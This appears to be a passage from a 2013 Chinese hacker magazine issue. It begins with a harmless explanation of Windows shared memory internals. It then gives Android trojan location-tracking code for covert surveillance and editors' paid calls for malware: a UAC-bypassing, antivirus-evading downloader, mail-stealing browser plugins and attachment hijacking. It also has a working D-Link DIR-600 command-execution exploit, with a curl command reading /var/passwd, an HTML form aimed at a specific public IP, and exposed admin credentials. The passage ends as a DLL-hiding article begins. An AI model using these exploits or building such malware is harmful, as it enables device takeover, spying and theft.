① hFile = CreateFile(pszFileName, ...);      // 创建或者打开文件对象
② hFileMap = CreateFileMapping(hFile, ...);  // 创建一个文件映射内核对象
③ pbFile = MapViewOfFile(hFileMap, ...);     // 将文件映射对象的部分或者全部映射到进程的地址空间
④ pbFile[0] = 1;                              // 共享内存的使用
⑤ UnMapViewOfFile(pbFile, ...);               // 取消上一步骤的映射
⑥ CloseHandle(hFileMap);                      // 关闭文件映射内核对象
⑦ CloseHandle(hFile);                         // 关闭文件内核对象


```

共七个步骤。如果细看，可以发现步骤①与步骤⑦相对应，步骤②与步骤⑥相对应，步骤③与步骤⑤相对应，都是互相对应的反向操作。

在第②步中，`CreateFileMapping()` 函数创建了一个文件映射内核对象，该函数使用一个由步骤①中 `CreateFile()` 函数打开并返回的文件句柄；但若是为了两个进程之间共享内存，此句柄可以设置为 `0xFFFFFFFF`，表示使用系统页面文件，则步骤①可以省略。该函数最后一个参数可以为内存映射对象指定名字，通过调用 `CreateFileMapping` 函数和 `OpenFileMapping` 函数，其他进程可用这个名字来访问相同的文件映像。

`CreateFileMapping` 函数创建成功文件映射内核对象后，步骤③调用 `MapViewOfFile` 函数，把文件的一块区域映射到进程地址空间上。调用这个函数需要指定文件映射对象、目标文件的起始地址、操作的数量等参数。

完成步骤③后，操作数组 `pbFile` 就等同于操作目标文件本身。当不再需要把文件的数据映射到进程空间时，调用步骤⑤中的 `UnMapViewOfFile` 函数解除映射，同时会将一些映射数据写入文件。最后在步骤⑥、⑦中，释放文件映射对象和文件对象。

如果上面的步骤通过编程亲自实践，能够顺利完成的话，那么就是一个合格的 Windows 编程人员；但作为一名研究 Windows 内核的同仁，还要想得更多：在 `CreateFileMapping` 函数和 `MapViewOfFile` 函数背后，共享内存实现的奥秘是什么呢？

#### 内核层面共享内存的实现

在最初学习这段内容的时候，看着 N 多个数据结构、N 多的连接关系，密密麻麻如八爪鱼般邪恶。为了使读者少一些痛苦、轻松一些，下面我将按照前面介绍共享内存使用的步骤①～③进行分步讲解。

### 1. CreateFile 的工作
图 1 CreateFile 的工作

因为本文并不专门针对文件的操作，所以只涉及共享内存有关的内容。当我们使用 `CreateFile` 创建或者打开一个文件时，系统会创建一个文件对象；如果该文件再次被打开，会有一个新的文件对象被创建，打开 N 次，生成 N 个文件对象。在每个文件对象中，有一个指针指向一个叫做“内存区对象指针”的结构。

“内存区对象指针”由三个 32 位的指针组成：指向共享的高速缓存映射的指针、指向数据控制区域的指针和指向映像控制区域的指针。指向共享的高速缓存映射的指针用于文件的缓存管理，是一个很重要的概念，以后的文章会有详细的描述；而后两者都指向控制区域结构，分别用来映射数据（Data）文件和可执行（Image）文件。

### 2. CreateFileMapping 的工作

前面提到，`CreateFileMapping` 函数会创建文件映射对象（File Mapping Object），该对象还有一个别名，叫做内存区对象（Section Object）。内存区对象有两种：一种是需要具体文件支撑的，这个文件可以是可执行（Image）文件，也可以是数据（Data）文件，通常这种内存区对象用于文件的映射操作，因此可以说这种内存区对象背靠的是映射文件。还有一种内存区对象是不需要具体文件，而使用页面文件支撑的，这种内存区对象通常用于两个或者多个进程共享内存，进行进程间通信，所以可以说这种内存区对象背靠的是页面文件。

注意，所谓的页面文件是操作系统创建的文件，专门用于将使用次数少的内存进行存储，从而空出内存，所以可以认为页面文件是内存的一个背靠文件。

`CreateFileMapping` 函数通过间接调用 `MmCreateSection` 函数完成内存区对象的创建。`MmCreateSection` 函数实现的逻辑如下：

- 1）如果 `FileHandle` 非空，代表该内存区对象由映射文件支撑，那么新建一个 `Control_Area` 对象，并用文件对象中的信息填充，利用 `MiCreateImageFileMap` 或者 `MiCreateDataFileMap` 创建一个新的 Segment 对象；
- 2）如果 `FileHandle` 为空，代表该内存区对象由页面文件支撑，则调用 `MiCreatePagingFileMap` 创建一个控制区对象和 Segment 对象，而并不涉及文件对象；
- 3）利用 `ObCreateObject` 函数创建 Section 对象，并填充相应信息，返回该 Section 对象。

好了，一会儿工夫，蹦出三个对象：控制区域（Control_Area）对象、内存区（Section）对象和段（Segment）对象，对象多了好头疼！

内存区对象：内存区对象属于内核对象之一，有标准的对象头，也有对象体。对象头由对象管理器负责，而对象体的内容由内存管理器管理，其对象体结构如下：

```c
typedef struct _SECTION {
    MMADDRESS_NODE Address;
// 当这个 section 是可执行程序时，放于专门存放可执行程序的 VAD 树中
    PSEGMENT Segment;            // 指向段对象
    LARGE_INTEGER SizeOfSection; // 内存区的大小
    union {
        ULONG LongFlags;
        MMSECTION_FLAGS Flags;   // 内存区的一组标志
    } u;
    MM_PROTECTION_MASK InitialPageProtection; // 页面保护模式
} SECTION, *PSECTION;
```

可以看到，内存区对象包含了描述的内存区的大小、一些标志和页面的保护模式，而最重要的内存内容则隐藏在内存区对象 `Segment` 成员指向的段对象中。

控制区域对象的结构体如下：

```c
typedef struct _CONTROL_AREA {
    PSEGMENT Segment;                // 指向段对象
    .........
    ULONG NumberOfMappedViews;       // 反映了与之关联的内存区对象被映射了多少次
    .........
    PFILE_OBJECT FilePointer;        // 指向文件对象
    PEVENT_COUNTER WaitingForDeletion;
    USHORT ModifiedWriteCount;
    USHORT FlushInProgressCount;
    ULONG WritableUserReferences;
    ULONG QuadwordPad;
} CONTROL_AREA, *PCONTROL_AREA;
```

这个数据结构是 `Control_Area` 对象结构的主体。一个完整的 `Control_Area` 对象之后还紧跟着 N 个 `SUBSECTION` 结构，每个 `SUBSECTION` 对应着文件中的一个 section，用于描述文件中每节映射信息（只读、读写、写时复制等）。例如，我们知道一个 PE 文件有 N 个节（section，这个 section 和前面提到的不一样，它是 PE 文件的组成部分，可以翻译为“节”），那么 PE 文件中有几个节，在 `Control_Area` 对象中就有多少个 `Subsection`。所有的 `SUBSECTION` 结构构成一个单链表，每个 `SUBSECTION` 结构有一个指针指回到 `Control_Area` 对象结构。

段对象的结构体如下：

```c
typedef struct _SEGMENT {
    struct _CONTROL_AREA *ControlArea;
    ULONG TotalNumberOfPtes;
    ULONG NonExtendedPtes;

    UINT64 SizeOfSegment;
    MMPTE SegmentPteTemplate;
    .........
    SEGMENT_FLAGS SegmentFlags;
    PVOID BasedAddress;
    ......

    union {
        PSECTION_IMAGE_INFORMATION ImageInformation;
        PVOID FirstMappedVa;
    } u2;
    PMMPTE PrototypePte;
    MMPTE ThePtes[MM_PROTO_PTE_ALIGNMENT / PAGE_SIZE];
} SEGMENT, *PSEGMENT;


```

Segment 段对象在分页缓冲池中分配，用来描述和存放内存区数据。大家会注意到该结构中有很多 PTE 的字样，一个完整的 Segment 段对象除了上述的结构，紧接着还会有一个 PTE 数组，形成一个原型 PTE 阵列，用于完成将内存区对象实际映射到物理内存上。列出以上三个对象的数据结构，我们先看看它们之间的连接关系，如图 2 所示。
图 2 CreateFileMapping 函数所做的工作

当控制区域对象被创建后，如果该内存区对象为可执行文件，则内存区对象指针中的映像控制指针指向该控制区域对象；如果该文件为数据文件，则内存区对象指针中的数据控制指针指向该控制区域对象。

### 3. MapViewOfFile 的工作

好的，现在对象以及各个对象之间的关系都已经创建了，应用程序获得了内存区对象的句柄，但还不能访问内存区对象中的数据。为了使用内存区对象中的数据，应用程序必须映射一个视图，将内存区对象描述的地址映射到进程的地址空间。这个步骤由 Windows 内核的系统服务例程 `NtMapViewOfSection` 函数完成，对应于内存管理器中的函数是 `MmMapViewOfSection` 函数。

`MmMapViewOfSection` 函数的大致逻辑是这样的：由内存区对象 → 段对象 → 控制区域中的标志信息确定内存区的类型：

- 1）若 `PhysicalMemory` 位为 1，则映射的类型为物理内存，使用 `MiMapViewOfSpecialSection` 函数来映射内存区；
- 2）若 `Image` 位为 1，表明内存区对象是个镜像文件，则调用 `MiMapViewOfImageSection` 函数来映射内存区；
- 3）若非以上两种情况，那么内存区对象为数据文件或者页面文件，则调用 `MiMapViewOfDataSection` 函数来映射。

下面我们以 `MiMapViewOfDataSection` 函数的逻辑为例。该函数大体完成两个任务：

- ① 在进程地址空间中找到内存区对象声明大小的空闲地址范围，建立一个与该地址范围对应的 VAD 对象之后，将该 VAD 对象中的 `ControlArea` 指向在 `CreateSection` 函数中创建的控制区对象，并将该 VAD 节点插入到进程的 VAD 树中；
- ② 针对该地址范围，设置相应页表中的内容为段对象中的 `SegmentPteTemplate` 值。如果该内存区对象是使用页面文件支撑的，则仅设置保护属性。

在调用过 `MiMapViewOfDataSection` 函数后，系统就已经完成了从虚拟地址到物理内存再到文件的映射，应用程序就可以通过访问内存的方式来访问文件或者共享内存，其结构如图 3 所示。
图 3 MapViewOfFile 函数所做的工作

### 4. 原型 PTE 的使用

在前面的内容我们经常提到原型 PTE，下面我们看看原型 PTE 的庐山真面目！可以说原型 PTE 是实现共享内存最根本的机制。一个原型 PTE 可以描述 6 种状态的页面：

- 1. 有效。对应的页面位于物理内存中，此时原型 PTE 已经是一个有效的 PTE。
- 2. 位于页面文件中，对应的页面位于页面文件中。
- 3. 位于映射文件中，对应的页面位于映射文件中。
- 4. 要求零页面。
- 5. 转移页面。
- 6. 已修改但不写出页面。

在段对象中包含了内存区对应页面的原型 PTE 阵列，当进程访问该内存区对象中的页面时，内存管理器将页面对应的原型 PTE 中的内容填充到对应的页表 PTE 中，下面不妨用例子来说明。

阶段 1：

为了表达更清楚，我们将进程 A 中 P1 页面的 PTE 定义为 PTE1，进程 B 中 P1 页面的 PTE 定义为 PTE2。

假设进程 A 和进程 B 共享一个内存区对象，而该内存区包含一个页面 P1。目前该页面还没有被访问过，所以进程 A 和进程 B 中对应页面的 PTE 是无效的，并且都指向段对象中的 P1 的原型 PTE，而该原型 PTE 指向页面文件中的页面 P1，如图 4 所示。

图 4 原型 PTE 使用的例子，阶段 1

当一个共享页面无效时，进程页表中的页表项由一个特殊的页表项来填充。这个特殊的页表项指向描述该页面的原型页表项，此时 PTE1 和 PTE2 中的格式如图 5 所示，其中有效位为 0 表示这是一个无效的 PTE，原型位为 1，表示这是一个指向原型 PTE 的 PTE。两段原型 PTE 地址组成 0～27 共 28 位的地址，因为每个 PTE 是四个字节，所以 28 位的地址可以用来描述 30 位的空间。因为段对象在系统换页池中分配，那么原型 PTE 都在换页内存池中，因此图 5 中原型 PTE 的地址指的是该原型 PTE 相对于系统换页内存池起始位置的偏移。

图 5 指向原型 PTE 的无效 PTE

为了将图 5 所示结构中的原型 PTE 地址转换为虚拟内存地址，需要将其进行转换，转换方法如图 6 所示。

图 6 PTE 转换为虚拟地址（偏移）

因此，我们可以看到 WRK 中会有以下转换宏：

```c
#define MiPteToProto(lpte) (PMMPTE)((PMMPTE)((((lpte)->u.long)>>11<<(9)+((((lpte)->u.long))<<24)>>23)+MmProtopte_Base))
```

其中 MmProtopte_Base 定义为：

```c
#define MmProtopte_Base ((ULONG)MmPagedPoolStart)
```

实际上也就是换页内存池的开始位置。

阶段 2：

当进程 A 访问该页面时，发生访问违例，系统将页面 P1 导入内存，并将其页面号赋予段对象中的指向 P1 的原型 PTE，同时将此原型 PTE 赋予 PTE1，如图 7 所示；此时 PTE1 和段对象中的原型 PTE 的内容是一致的，都是有效的 PTE，而 PTE2 则仍然是一个如图 5 所示的结构。

图 7 原型 PTE 使用的例子，阶段 2

阶段 3：

当进程 B 访问此页面时，依然会发生访问违例，发现指向此页面的 PTE 是个原型 PTE（由原型位为 1，valid 位为 0），并且页面已经导入内存，那么就直接将段对象中的对应原型 PTE 赋予 PTE2，从而快速地实现页面共享。为了跟踪每个共享页面的使用情况，在物理页面对应的帧号数据库中记录了该页面被几个进程共享。当一个共享页面已经不再被任何页表引用，内存管理器会将这个页面标记为无效，并将其移到转换链表或写回外存。如图 8 所示。

图 8 原型 PTE 使用的例子，阶段 3

另外，如在图 7 的状态下，内存区对象中的一个页面从有效变成无效时，它的硬件 PTE 将直接指向原型 PTE，恢复图 4 中的状态。

#### 小结

共享内存不仅应用于进程间内存共享，也用于将文件映射到进程的地址空间，从而实现文件的快速访问。本文讲解了共享内存的实现机制，重点是要理解 CreateFileMapping 函数和 MapViewOfFile 函数所做的工作以及原型 PTE 的原理。

（完）

## Android 木马揭秘之用户定位技术的实现

文/图 爱无言

这几年安卓系统的普及速度可谓迅猛，一时间各式各样的设备都承载着安卓系统，手机、平板、机顶盒等都忠实地成为了安卓系统的用户。由于安卓系统在移动设备上的使用率最高，而移动设备上存储的数据往往涉及到个人隐私，如手机通讯录、短信内容、拍摄照片、阅读书目、保存文档等，有时更会涉及到经济利益，这诱惑着一些利益集团开始制作基于安卓系统的远程控制程序，即安卓系统木马。首个安卓系统木马应属 2010 年出现的“Trojan-SMS.AndroidOS.FakePlayer.a”，这是一个以扣取用户手机话费为目的的盈利性安卓系统木马。随着需要的发展，单纯的盈利性木马已经不是重点，用户的隐私数据才是核心，尤其是具有用户行为监视性的木马最受关注。所谓“用户行为监视性的木马”就是指该类安卓木马能够监视用户的所在、所说、所做。“所在”即用户所处位置在哪里；“所说”即通话内容、聊天内容；“所做”即在操作什么程序，在干什么活动。这一类木马由于涉及到用户核心利益，往往经济价值较大，多用于私人侦探、商业窃密等领域，平时很难见到，更不要说了解其核心代码、实现机制。为此，本文将逐步向读者揭秘这些高级安卓木马的核心实现技术，帮助大家更好地了解这些木马实现技术，从而做好对个人隐私的保护，防范该类木马的入侵。本文旨在讨论技术，凡利用本文技术进行违法活动的作者与杂志概不负责。

这里首先要向大家揭秘的是高级安卓木马是如何实现对用户定位的，即如何知道用户的“所在”。如果你利用百度搜索安卓定位原理，会发现百度给出的解释不外乎是利用 GPS 或者手机基站定位，甚至结合 Wi-Fi 信号。原理不错，但这只是原理，要想具体实现定位可是有一定难度的。以手机基站定位为例，现在传统的实现方式是利用 Android SDK 中的 API（TelephonyManager）获得 MCC、MNC、LAC、CID 等信息，然后通过 Google 的 API 获得所在位置的经纬度，最后再通过 Google Map 的 API 获得实际的地理位置。这其中，MCC 即 Mobile Country Code，移动国家代码（中国的为 460）；MNC 即 Mobile Network Code，移动网络号码（中国移动为 00，中国联通为 01）；LAC 即 Location Area Code，位置区域码；CID 即 Cell Identity，基站编号，是个 16 位的数据（范围是 0 到 65535）。由于谷歌存储了 MCC、MNC、LAC、CID 等信息，一旦我们能够获取当前移动设备所在基站的这些数据，就可以通过向谷歌的“http://www.google.com/loc/json”网址发送查询数据获取基站所在经纬度。得到经纬度后，我们将其转换为实际地址，这需要向谷歌的“http://maps.google.cn/maps/geo?key=abcdefg&q=”发送经纬度数据，最终获得移动设备所在实际地址。这样的实现代码在网上很多，你会发现它们都不好使了，为什么呢？因为“http://www.google.com/loc/json”这个网址现在已经不能访问了。这个可悲的消息使得我们意识到必须采用一种相对稳妥的方法来实现移动设备定位。在对某个安卓木马程序做逆向分析时，发现一种新的基于手机基站定位实现技术。当然在这之前，细心的读者会发现为什么我们一直在详细讲解基于手机基站的定位实现，而不采用最为常用的 GPS。因为手机这样的移动设备一旦进入到房屋内等封闭场所，GPS 信号就衰减为 0，不足以实现定位，而手机信号多半都是存在的，所以基于手机基站的定位方式更为稳妥，这就是为什么很多高级安卓木马会采用该方式实现定位的原因。

言归正传，我们发现的这个安卓木马采用了基于百度提供的定位 SDK。根据百度官方的解释：百度 Android 定位 SDK 支持 Android 1.5 以及以上设备，提供定位功能，通过 GPS、网络定位（WiFi、基站）混合定位模式，返回当前所处的位置信息；反地理编码功能：解析当前所处的位置坐标，获得详细的地址描述信息。如此丰富的技术支持，难怪该安卓木马会采用这个 SDK。

百度 Android 定位 SDK 的使用非常简单，首先在百度官网下载最新的库文件，将 liblocSDK.so 文件拷贝到 libs/armeabi 目录下，将 locSDK.jar 文件拷贝到工程根目录下，并在工程属性 -> Java Build Path -> Libraries 中选择 Add JARs，选定 locSDK.jar，确定后返回，就可以在程序中使用百度 Android 定位 SDK 了。在代码实现时，首先需要初始化 LocationClient 类，其代码如下：

```c
public LocationClient mLocationClient = null;
public BDLocationListener myListener = new MyLocationListener();
public void onCreate() {
    mLocationClient = new LocationClient(this);      // 声明 LocationClient 类
    mLocationClient.registerLocationListener(myListener);      // 注册监听函数
}
```

接着实现 BDLocationListener 接口。BDLocationListener 接口有一个方法，作用是接收异步返回的定位结果，参数是 BDLocation 类型参数。其代码如下：

```c
public class MyLocationListener implements BDLocationListener {
    @Override
    public void onReceiveLocation(BDLocation location) {
        if (location == null)
            return;
        StringBuffer sb = new StringBuffer(256);
        sb.append("time : ");
        sb.append(location.getTime());
        sb.append("\nerror code : ");
        sb.append(location.getLocType());
        sb.append("\nlatitude : ");
        sb.append(location.getLatitude());
        sb.append("\nlongitude : ");
        sb.append(location.getLongitude());
        sb.append("\nradius : ");
        sb.append(location.getRadius());

        if (location.getLocType() == BDLocation.TypeGpsLocation) {
            sb.append("\nspeed : ");
            sb.append(location.getSpeed());
            sb.append("\nsatellite : ");
            sb.append(location.getSatelliteNumber());
        } else if (location.getLocType() == BDLocation.TypeNetWorkLocation) {
            sb.append("\naddr : ");
            sb.append(location.getAddrStr());
        }
        logMsg(sb.toString());
    }
}
```

接着设置参数。设置定位参数包括定位模式（单次定位、定时定位）、返回坐标类型、是否打开 GPS 等。实现代码如下：

```c
LocationClientOption option = new LocationClientOption();
option.setOpenGps(true);
option.setAddrType("detail");
option.setCoorType("gcj02");
option.setScanSpan(5000);
mLocClient.setLocOption(option);
```

最后，发起定位请求。请求过程是异步的，定位结果在上面的监听函数中获取，代码如下：

```c
if (mLocClient != null && mLocClient.isStarted())
    mLocClient.requestLocation();
else
    Log.d("LocSDK_2.0_Demo1", "locClient is null or not started");


```

实际测试效果如图 1 所示。从图中可以看出，演示程序准确定位到了我此刻手机所在的位置，定位精度在百米内。木马程序一旦使用了这样的技术，完全可以实现对用户所在的监视，你此刻是不是有一种毛骨悚然的感觉呢？

图 1

定位代码实现后，就可以利用移动网络将用户数据实时上传至控制端网站，由控制端用户查看。结合以往数据，就可以勾画出一个人一段时间内的行踪。对被控制者来说，此刻的手机或者其他移动设备就成为了出卖自己的第一元凶。

定位代码的成功实现，只是高级安卓木马程序的一部分功能，随后的工作还有很多，我会陆续将这些核心技术向读者一一揭秘。

（完）

### 2013 年第 4 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系信箱：du_xing_zhe@yahoo.com.cn，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬从优！第 3 期的选题如下：

### 1）编写下载者

说明：  
编写一个下载者程序，每次开机启动后，都能从指定网站获取数据，下载并执行。

- 要求：
- 1）将该程序上传到邮箱，然后下载到机器上运行，不会有 SmartScreen 提示。
- 2）Windows UAC 安全设置最高，程序自身运行时无提示，能获取系统管理员权限。
- 3）执行其他程序也能无提示获取系统管理员权限。
- 4）能绕过 360 安全卫士监控，加载驱动保护自身，隐藏和保护指定的文件，隐藏连接，使用 XueTr、PowerTool 工具无法查看到文件和连接。
- 5）免杀过 360 安全卫士、360 杀毒等主流杀软。
- 6）程序没有签名。
- 7）运行的系统补丁打到最新。
- 8）支持操作系统 Windows XP/2003/Vista/7/2008/8。
- 9）以上所有功能，能在 32 位和 64 位系统上通用稳定。

### 2）自动下载邮箱内容

说明：  
支持 IE 系列、Firefox、Chrome 等常用浏览器，支持 Gmail、Hotmail、Yahoo 三个邮箱。需要实现的功能是当用户登录上述邮箱时，程序自动将用户邮箱中的邮件自动保存到本地指定目录，要求保存为 eml（包括附件内容）。

要求：  
初步要求将当前用户查看的邮件内容及附件保存为 eml 到本地；进一步的要求是将当前用户的所有邮件保存为 eml 到本地。

### 3）Ring3 下实现 PE Loader

- 要求：
- 1）支持 C、C++ 的 Run time 运行库以及 TLS；支持 MFC；支持 .NET 运行库；
- 2）支持 Windows NT5/NT6 32 位以及 64 位的操作系统；
- 3）使用 VC 实现，不要封装成类的形式；
- 4）实现成功的标志：成功将测试 DLL 程序加载入进程的内存空间，并且进程模块中不显示被加载的 DLL 模块。

### 4）邮箱自动取信程序

说明：  
编写一个程序，当用户使用浏览器登录邮箱时，自动把信箱里的所有邮件下载到本地。

- 要求：
- 1）支持 Gmail、Hotmail、Yahoo 新版旧版。
- 2）支持 IE 浏览器 6/7/8/9/10，或支持火狐浏览器，或谷歌浏览器。
- 3）获取收件箱、发件箱与通讯录内容。

建议编写成 BHO 插件或其他浏览器插件，分析邮箱网页上的元素，将邮件内容、主题、发件人等相关信息分析出来。

### 5）邮箱附件劫持

说明：  
编写一个程序，当用户在浏览器上登录邮箱（本地权限）、发送邮件时，自动将附件里的文件替换为另外一个文件。

- 要求：
- 1）支持 Gmail、Hotmail、Yahoo 新版旧版、163、126。
- 2）支持 IE 浏览器 6/7/8/9/10，或支持火狐浏览器，或谷歌浏览器。

### 6）突破 Windows 7 UAC

说明：  
编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

- 要求：
- 1）Windows UAC 安全设置为最高级别；
- 2）系统补丁打到最新；
- 3）支持 32 位和 64 位系统。

### 7）Android WiFi Tether 数据转储

说明：  
WiFi Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WiFi Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

- 要求：
- 1）开启 WiFi 热点后，对流经本机的所有网络数据进行存储；
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT。

### 8）Android 系统中暴力破解以 WEP 加密的 WiFi 密码

- 说明：
- 1）Android 系统为 root 过的；
- 2）针对 WEP 加密方式进行破解；
- 3）可以使用跑密码字典的方式实现；
- 4）可以编写新程序或者移植。

### 要求：

- 1）代码必须以后台方式运行；
- 2）代码从 sd 卡 wifi.txt 文件读取要破解的目标；
- 3）代码从 sd 卡 pass.txt 文件读取要尝试的密码；
- 4）破解结果写入 sd 卡 password.txt 文件。

### 2013 征稿启事

《黑客防线》作为一本技术月刊，已经 13 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码，重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证。最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章。

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 Virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求

- 1) 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图 1”“图 2”；

- 2) 在稿件末尾请注明您的账户名、银行账号以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。

- 3) 投稿方式和周期：  
采用 E-Mail 方式投稿，投稿 mail：du_xing_zhe@yahoo.com.cn，QQ：675122680。投稿后，稿件录用情况将于 1-3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4) 稿费发放周期：  
稿费当月发放，稿费从优。欢迎更多的专业技术人员加入到这个行列。

- 5) 根据稿件质量，分为一等奖、二等奖、三等奖稿件，稿费标准如下：  
一等奖稿件　900 元/篇  
二等奖稿件　600 元/篇  
三等奖稿件　300 元/篇

- 6) 稿费发放办法：  
银行卡发放，支持境内各大银行借记卡，不支持信用卡。

- 7) 投稿信箱及编辑联系  
投稿信箱：du_xing_zhe@yahoo.com.cn  
编辑 QQ：675122680

## 《黑客防线》第 4 期文章目录

总第 148 期 2013 年

### 漏洞攻防

- D-Link DIR-600 命令执行漏洞利用（Blackcool）……2
- 隐藏 DLL 的两则新思路（木羊）……4

### 编程解析

- Ring3 下实现 PE Loader（换心）……7
- 利用 APC 从内核向应用程序插入 DLL（宁妖）……12
- 重定向 SRB 读写请求（宁妖）……17
- 打造通用型 JSP 防注入系统（爱无言）……26
- 编写数据库密码远程暴力破解器（大石头）……28
- AMF3 协议终极解析（白金之星）……34
- Win64 无 Hook 实现监控注册表（胡文亮）……45

### Android 远程监控技术

- Android 平台下的 WIFI 流量转储（顽石）……50
- 基于 ARM 平台的 EXPLOIT 研究（秦妮）……60
- Android 图形锁破解（修炼中的柳柳）……66

- 2013 年第 5 期杂志特约选题征稿……68
- 2013 年征稿启示……70

### D-Link DIR-600 命令执行漏洞利用

文/图 Blackcool

最近发现 D-Link 无线路由器的安全问题还真是不少，本文要和大家分享的是一个比较严重的漏洞，D-Link DIR-600 命令执行漏洞。这个漏洞可以在不登录设备的情况下执行 Linux 系统命令。也就是说，只要该路由器提供对外访问的 Web 接口，即可执行底层命令。

首先看一下存在该漏洞的设备的版本信息：固件版本 2.12b02、2.13b01、2.14b01 的设备都存在这个安全漏洞。

利用方法是向存在漏洞的设备的 Web 接口中的 command.php 文件 post 数据“cmd=cat /var/passwd”，即可执行读取用户及密码的命令，在反馈页面中会显示出该设备的用户名及密码。

下面我们用 curl 进行测试，Wireshark 进行抓包观察利用过程，命令是“curl --data "cmd=cat /var/passwd" http://设备IP/command.php”，执行后，会自动向设备发包，反馈结果如图 1 所示。
图 1

图中蓝色的部分是返回结果，可以看到返回数据中有管理员用户名及密码。该设备的管理员为 admin，密码是 Jee8peeg，使用该账号及密码登录设备进行验证，结果如图 2 所示，可以正常登录设备进行远程控制。
图 2

从原理可以看出这个漏洞利用是很简单的，发 post 数据到执行 URL 即可，我们完全可以编写 html 页面完成 post 发包功能。代码很简单，具体如下：

```html
<form action="http://217.17.210.159:8080/command.php" method="post">
    <p>cmd=<input type="text" name="cmd" /></p>
    <input type="submit" value="执行" />
</form>


```

保存为 exp.html 即可，之后用浏览器打开，在“cmd=”后面输入要执行的命令，如读取账号密码等，如图 3 所示，点击“执行”后即会向指定 URL 发送数据，反馈结果也会显示在页面上。
图 3

联网设备的安全问题还有很多，如文件任意下载、文件任意读取、命令注入等，存在漏洞的设备也不只局限于路由器，像 iPhone 的部分联网软件也是存在上述安全漏洞的，以后有机会继续和大家分享交流相关技术。

### 隐藏 DLL 的两则新思路

文/图 木羊

隐藏 DLL 的动机很多，比如躲过检测就是常见的原因之一。隐藏的方法也不是唯一的，大体可分为手动载入和痕迹消除两类。手动载入，顾名思义就是自己实现 LoadLibrary 函数，这样可以更精确地控制内存读入什么信息和不读入什么信息，理论上这种方法隐藏效果最佳，但实现一个基本的 PE loader 绝不是一件轻巧的事，如果还要完美兼容所有细节，那展开后还需要考虑妥善处理 TLS、资源和线程等问题，DLL 在这方面的处理只会比 EXE 更加复杂。相比之下，选择先调用 LoadLibrary 再消除痕迹，则不用在兼容性方面焦头烂额，至少更为稳定。但用过 RootKit 的都知道，Windows 就是一个看起来风平浪静其实底下暗流涌动的万年坑主，除了真的不存在之外，没有什么方法真能保证把痕迹擦得片甲不留。以 DLL 擦除为例，网上很多方法选择的是 PEB 双向断链，需要很多硬编码，会影响移植性且不说，只要用内存暴力穷搜还是会露出破绽来的。

不过所谓攻防对抗，本身也是个此消彼长的博弈过程，只要能用更小的成本迫使对方投入更高的代价，就能算得上好方法。这几天琢磨这事，倒是折腾出两个看起来可行的新思路，效果还行。

### 思路一的实现

